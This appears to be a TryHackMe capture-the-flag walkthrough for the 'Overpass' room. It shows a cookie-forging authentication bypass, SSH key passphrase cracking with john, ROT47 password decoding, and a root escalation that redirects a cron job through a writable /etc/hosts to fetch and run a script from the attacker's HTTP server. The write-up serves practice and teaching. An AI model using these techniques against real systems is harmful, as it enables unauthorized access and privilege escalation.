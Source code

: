 ```yaml
---
title: Overpass WalkThrough
permalink: /overpass
layout: page
tags: TryHackMe
---
```

# Overpass
# ![front](/images/overpass/front.png)
[https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)
 
## Open ports:
	- 22: SSH
	- 80: HTTP
![ports](/images/overpass/ports.png)

## Port 80:
* starting Dirbuster:
	* found /admin 
		* On futhur inspection found the response login.js code
		* On undserstating the code and simply changing the _cookies.set_
		```javascript 
		Cookies.set("SessionToken","Done");
		```
		![cookie](/images/overpass/cookieSet.png)

		* Now on reloading the page:
		![reload](/images/overpass/onreload.png)
		* we find the **ssh key** and save it on out pc.

## Port 22:
```
chmod 600 ssh_key
```
**Username:** James
* while logging in it is asking for passphrase
* So, **ssh2john**
 ```python 
 /usr/share/john/ssh2john.py ssh_key > hash.txt
 john --wordlist=/usr/share/wordlist/rockyou.txt --format=SSH hash.txt
 ```
![cracked](/images/overpass/cracked.png)
* found the passphrase: **james13**

### User Flag:
![uflag](/images/overpass/uflag.png)

## Priviledge Escalation"
* on Looking at the files in out present dir:
	* found .overpass file with encrypted passwd
	```
	,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
	```
	* which encrytion is this?
	* Going to https://www.dcode.fr/cipher-identifier 
	![efound](/images/overpass/efound.png)
	* So it is likely to be ROT47
	* After decoding:
	```
	[{"name":"System","pass":"saydrawnlyingpicture"}]
	```
* Uploading lineum.py....
* [+]Starting linpeas.sh
* **under crontab section found**
![cron](/images/overpass/cron.png)
* **Found /etc/hosts** writable
	* change the overpass.thm ip to our <ip>
	* create dir `mkdir -p downloads/src/` 
	* create a `buildscript.sh` inside src folder
	* nano bashscript.sh
	```
	cat /root/root.txt >> /tmp/flag.txt
	```
	* inside victim :
	```
	touch /tmp/flag.txt
	```
	* Now go to www and start
	```
	sudo python -m SimpleHTTPServer 80
	```
	* wait for the victim to connect to your http and run the `bashscript.sh`
	* Go to victim machine `cat /tmp/flag.txt`

### Root Flag:
![root](/images/overpass/root.png)